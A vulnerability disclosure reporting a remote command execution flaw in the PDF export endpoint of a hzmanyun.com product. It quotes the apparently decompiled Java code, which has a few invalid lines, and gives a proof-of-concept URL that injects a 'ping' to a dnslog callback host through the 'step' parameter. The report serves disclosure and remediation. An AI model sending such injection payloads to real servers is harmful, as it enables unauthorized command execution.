


# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title: Remote Command Execution (RCE) in PDF Export Functionality
### Summary:
The code snippet provided contains a vulnerability that allows for Remote Command Execution (RCE) due to improper handling of user input in the exportPDF function.

### Affected Endpoint:
/plan/exportPDF

### Vulnerability Type:
Remote Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/exportPDF"})
public void exportPDF(HttpServletResponse response, @RequestParam("id") Long id, @RequestParam("step") String step) {
   try {
      Runtime run = Runtime.getRuntime();
      String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
      String fileName = System.currentTimeMillis() + ".pdf";
      String filePath = rootPath + "/pdffile/" + fileName;
      File dir = new File(rootPath + "/pdffile/");
      if (!dir.exists()) {
         dir.mkdir();
      }

      Process process = run.exec("wkhtmltopdf --page-size A3 "
              + CommonConstants.contextPath
              + "/plan/infoExportPDF?id="
              + id + "&step="
              + step + " "
              + filePath);
      process.waitFor();
      response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
      InputStream in = new FileInputStream(new File(filePath));
      int len = false;
      byte[] buf = new byte[1024];
      OutputStream out = response.getOutputStream();

      int len;
      while((len = in.read(buf)) > 0) {
         out.write(buf, 0, len);
      }

      in.close();
   } catch (Exception var14) {
      logger.error("---------------------" + var14);
   }

}
```

### Proof of Concept (PoC):
```
http://uri/plan/exportPDF?id=1&step=;ping 490b6a1c.log.dnslog.sbs.;
```



### Impact:

An attacker can exploit this vulnerability by injecting arbitrary commands in the 'step' parameter of the URL, leading to the execution of unauthorized commands on the server hosting the application.

### Recommendation:
1. Validate and sanitize user input to prevent command injection vulnerabilities.
2. Avoid using user input directly in command execution functions.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.
4. Regularly update and patch third-party libraries to prevent known vulnerabilities.

### Conclusion:
The presence of this RCE vulnerability in the exportPDF function could lead to severe security risks for the application and its users. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
- OWASP Command Injection: https://owasp.org/www-community/attacks/Command_Injection

